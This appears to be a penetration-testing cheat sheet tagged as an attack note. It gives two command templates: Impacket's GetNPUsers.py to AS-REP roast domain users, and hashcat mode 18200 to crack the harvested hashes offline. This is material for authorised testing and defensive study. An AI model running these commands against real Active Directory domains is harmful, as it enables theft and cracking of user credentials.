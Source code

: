 # getnpusers
#plateform/linux #target/remote #cat/ATTACK

## ASREPRoast
```
GetNPUsers.py -usersfile <users_file|users.txt> -outputfile hashes.asreproast <domain>/
```

## Crack ASREPRoast
```
hashcat -m 18200 --force -a 0 <hash_file> </path/to/wordlist>
```